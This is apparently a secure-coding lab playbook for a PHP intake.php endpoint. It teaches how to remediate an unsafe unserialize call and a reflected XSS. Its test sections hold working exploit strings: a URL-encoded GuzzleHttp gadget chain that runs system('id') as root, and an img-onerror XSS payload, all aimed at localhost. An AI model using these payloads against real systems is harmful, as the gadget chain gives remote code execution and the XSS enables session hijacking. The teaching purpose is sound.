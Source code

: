 # playbook-05.md & intake.php

Welcome to this fifth playbook, here you'll learn about basic reflected Cross Site Scripting (XSS) issues and deserialization.

## Unserialize

Goal: Get rid of the dangerous unserialize function by using a safer alternative, or harden the unserialize call to prevent RCE.

Deserialization is a recurring issue for various languages and frameworks. As complex data needs to be parsed and used to reconstruct an object, it has been known to introduce critical security issues (remote code execution, file write, ssrf, ...) on languages such as php, java, ruby, and formats like json, xml, yaml, etc.

```bash
# Test feature
curl -sSkgi 'http://127.0.0.1/intake.php?data=O%3A7%3A%22LogLine%22%3A1%3A%7Bs%3A7%3A%22content%22%3Bs%3A33%3A%22YYYY%2FMM%2FDD%20-%20Software%20X%20rebooted%21%22%3B%7D'
# Should output "Received: YYYY/MM/DD - Software X rebooted!"
# Test exploit
curl -sSkgi 'http://127.0.0.1/intake.php?data=a%3A2%3A%7Bi%3A7%3BO%3A24%3A%22GuzzleHttp%5CPsr7%5CFnStream%22%3A2%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CPsr7%5CFnStream%00methods%22%3Ba%3A1%3A%7Bs%3A5%3A%22close%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A23%3A%22GuzzleHttp%5CHandlerStack%22%3A3%3A%7Bs%3A32%3A%22%00GuzzleHttp%5CHandlerStack%00handler%22%3Bs%3A2%3A%22id%22%3Bs%3A30%3A%22%00GuzzleHttp%5CHandlerStack%00stack%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A31%3A%22%00GuzzleHttp%5CHandlerStack%00cached%22%3Bb%3A0%3B%7Di%3A1%3Bs%3A7%3A%22resolve%22%3B%7D%7Ds%3A9%3A%22_fn_close%22%3Ba%3A2%3A%7Bi%3A0%3Br%3A5%3Bi%3A1%3Bs%3A7%3A%22resolve%22%3B%7D%7Di%3A7%3Bi%3A7%3B%7D'
# Should output: "uid=0(root) gid=0(root) groups=0(root)"
```

## Reflected XSS

Goal: Fix the XSS in a way that prevents dangerous characters to be reflected in the webpage.

An XSS allows an attacker to execute arbitrary javascript in the user's behalv. This often allows a session or account compromise, and always permits to take some actions as the victim, like.. Withdraw money, or buy an item and ship it to the attacker's dead-drop!

The main cause of such vulnerability is the lack of input sanitization both at ingest-time, and at display-time.

```bash
# Test feature
curl -sSkgi 'http://127.0.0.1/intake.php?data=O%3A7%3A%22LogLine%22%3A1%3A%7Bs%3A7%3A%22content%22%3Bs%3A33%3A%22YYYY%2FMM%2FDD%20-%20Software%20X%20rebooted%21%22%3B%7D'
# Should output "Received: YYYY/MM/DD - Software X rebooted!"
# Test exploit
google-chrome 'http://127.0.0.1/intake.php?data=O%3A7%3A%22LogLine%22%3A1%3A%7Bs%3A7%3A%22content%22%3Bs%3A42%3A%22%3Cimg%20src%3Da%20onerror%3Dalert%28document.domain%29%3E%22%3B%7D'
curl -sSkgi 'http://127.0.0.1/intake.php?data=O%3A7%3A%22LogLine%22%3A1%3A%7Bs%3A7%3A%22content%22%3Bs%3A42%3A%22%3Cimg%20src%3Da%20onerror%3Dalert%28document.domain%29%3E%22%3B%7D'
# Should open an alert box
```
